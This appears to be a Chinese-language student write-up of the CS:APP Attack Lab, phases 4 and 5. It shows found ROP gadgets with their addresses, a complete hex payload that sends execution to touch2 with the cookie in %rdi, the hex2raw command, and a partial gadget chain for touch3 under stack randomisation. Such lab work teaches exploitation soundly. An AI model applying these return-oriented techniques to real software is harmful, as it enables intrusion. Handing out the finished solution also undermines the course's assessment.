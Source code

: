     > 任务和phase2相同，执行完getbuf后，转去执行touch2，同时将cookie存到%rdi作为touch2的参数，不过不能使用代码注入。要使用已有的指令（也就是gadget）

    > touch2地址：0x4017ec
    > cookie：0x59b997fa
    
    在start_farm和mid_farm中间找满足需要的指令：
    ![](@attachment/Clipboard_2022-06-03-16-42-08.png)
    ![](@attachment/Clipboard_2022-06-03-16-32-51.png)
    
        00000000004019a7 <addval_219>:
        4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
        4019ad:	c3                   	retq  
    
  + 58 90 c3 -> 90可以忽略，pop %rax;ret;

        00000000004019a0 <addval_273>:
        4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
        4019a6:	c3                   	retq   

  + 48 89 c7 c3 -> movq %rax, %rdi; ret;

        0x4017ec
        movq %rax,%rdi ->地址：0x4019a2
        0x59b997fa
        popq %rax ->地址：0x4019ab

        00 00 00 00 00 00 00 00    
        00 00 00 00 00 00 00 00
        00 00 00 00 00 00 00 00
        00 00 00 00 00 00 00 00
        00 00 00 00 00 00 00 00
        ab 19 40 00 00 00 00 00      /* pop %rax;ret地址 */
        fa 97 b9 59 00 00 00 00      /* cookie值 */
        a2 19 40 00 00 00 00 00      /*  movq %rax,%rdi;ret地址 */
        ec 17 40 00 00 00 00 00      /* touch2地址 */ 

        ./hex2raw -i phase4.txt | ./rtarget -q

5. phase_5
   
    > touch3地址: 0x4018fa
    > cookie：0x59b997fa字符串表示形式：35 39 62 39 39 37 66 61 
    > getbuf栈顶地址：0x5561dc78
    

    > 分析：按照level3的写法，我们可能会尝试把cookie值放在更深的栈里，然后hardcode这个cookie值的地址。但是实际上是不行的，原因是，做了栈随机化，我们只能拿到rsp的地址后，动态地进行偏移。

    > 步骤：
      1. 拿到%rsp的地址
      2. %rsp + 偏移量，指向cookie
      3. 把这个地址放到%rdi
      4. 调用touch

        35 39 62 39 39 37 66 61  // cooki字符串
        0x4018fa                 //touch3地址
        movq %rax, %rdi;ret;     //将cookie地址放入%rdi
        lea  (%rdi, %rsi, 1), %rax;ret; //%rsp + 偏移量 —>cookie地址
        movq %rax,%rdi;ret;
        movq %rsp,%rax;ret;     //取%rsp，rsp在该条指令的下一条，所以相对于cooki偏移量为0x20；
        movl %ecx, %esi;ret;    //将偏移量放入%esi
        movl %edx, %ecx;ret;
        movl %eax, %edx;ret;    //
        0x20                    //偏移量
        popq %rax
